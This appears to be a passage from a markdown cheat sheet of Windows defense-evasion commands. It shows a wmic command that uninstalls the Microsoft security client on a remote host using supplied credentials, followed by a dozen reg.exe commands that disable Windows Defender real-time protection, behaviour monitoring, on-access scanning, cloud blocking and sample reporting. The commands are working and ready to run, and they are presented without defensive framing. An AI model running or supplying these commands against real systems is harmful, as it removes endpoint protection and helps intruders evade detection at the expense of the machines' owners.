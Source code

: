 #### 1.2.3.2 - Windows Defender

##### 1.2.3.2.1 - Command Prompt

```
C:\> wmic.exe [/node:<IP>] [/user:<username> /password:<password>] product where name="Microsoft Security Client" call uninstall /nointeractive
```

## 1.3 - Registry

### 1.3.1 - Disable Windows Security

#### 1.3.1.1 - Disable Real Time Protection

##### 1.3.1.1.1 - Command Prompt

```batch
C:\> reg.exe add "HKLM\Software\Policies\Microsoft\Windows Defender" /v "DisableAntiSpyware" /t REG_DWORD /d "1" /f

reg.exe add "HKLM\Software\Policies\Microsoft\Windows Defender" /v "DisableAntiVirus" /t REG_DWORD /d "1" /f

reg.exe add "HKLM\Software\Policies\Microsoft\Windows Defender\MpEngine" /v "MpEnablePus" /t REG_DWORD /d "0" /f

reg.exe add "HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableBehaviorMonitoring" /t REG_DWORD /d "1" /f

reg.exe add "HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableIOAVProtection" /t REG_DWORD /d "1" /f

reg.exe add "HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableOnAccessProtection" /t REG_DWORD /d "1" /f

reg.exe add "HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableRealtimeMonitoring" /t REG_DWORD /d "1" /f

reg.exe add "HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableScanOnRealtimeEnable" /t REG_DWORD /d "1" /f

reg.exe add "HKLM\Software\Policies\Microsoft\Windows Defender\Reporting" /v "DisableEnhancedNotifications" /t REG_DWORD /d "1" /f

reg.exe add "HKLM\Software\Policies\Microsoft\Windows Defender\SpyNet" /v "DisableBlockAtFirstSeen" /t REG_DWORD /d "1" /f

reg.exe add "HKLM\Software\Policies\Microsoft\Windows Defender\SpyNet" /v "SpynetReporting" /t REG_DWORD /d "0" /f

reg.exe add "HKLM\Software\Policies\Microsoft\Windows Defender\SpyNet" /v "SubmitSamplesConsent" /t REG_DWORD /d "0" /f
```

